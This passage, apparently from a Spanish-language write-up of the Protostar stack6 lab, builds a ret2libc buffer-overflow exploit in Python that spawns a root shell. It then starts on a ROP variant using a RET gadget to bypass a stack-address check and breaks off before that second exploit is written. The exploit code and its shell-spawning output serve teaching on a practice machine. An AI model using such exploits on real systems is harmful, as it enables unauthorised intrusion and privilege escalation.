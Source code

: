 ```console
[user@protostar]-[/opt/protostar/bin]:$ strings -atx /lib/libc-2.11.2.so | grep "bin/sh"
 11f3bf /bin/sh
(gdb) x/s 0xb7e97000 + 0x11f3bf
0xb7fb63bf:	 "/bin/sh"
```
Ya tenemos las tres direcciones, por tanto armamos el exploit

```console
[user@protostar]-[/opt/protostar/bin]:$ vim /tmp/exploit.py
```
```python
import struct

offset = 80
padding = "A" * offset
system = struct.pack("I",0xb7ecffb0)
exit = struct.pack("I",0xb7ec60c0)
bin_sh = struct.pack("I",0xb7fb63bf)
print(padding + system + exit + bin_sh)
```
Hay que pasarselo entre parentesis y con el cat al final ya que sino el proceso que abre de consola se cierra al instante, y cat lo deja abierto

```console
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py;cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA����`췿c��
whoami
root
```
# Extra ROP programming -> RET

El rop programming significa que nos aprovechamos de instrucciones de ensamblador del propio código para hacer determinadas cosas en el programa.
Una de ellas es la intrucción **RET**, la cuál hace un *POP EIP*, 

Es decir la última instruccion de la pila la pasa al eip, eliminandose a si misma (POP EIP), pero al ser RET, deja otro *POP EIP* tras de si que afecta a lo que haya despues en la pila. Es decir es como retrasara el salto un lugar, pero asi podemos burlar protecciones de no retorno a la pila como ```if((ret & 0xbf000000) == 0xbf000000)```... Vamos a verlo en acción.


```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack6
(gdb) disas getpath
... Muchas instrucciones :V
0x080484f8 <getpath+116>:	leave  
0x080484f9 <getpath+117>:	ret  -> Esta es la instruccion que nos interesa :)
```
Tambien se pueden buscar los gadgets asi:
```console
[user@protostar]-[/opt/protostar/bin]:$  objdump -d stack6 -M intel | grep "ret"
 804835f:	c3                   	ret    
 8048454:	c3                   	ret    
 8048482:	c3                   	ret    
 80484f9:	c3                   	ret   # La que hemos usado
```
Ahora a armar el exploit.
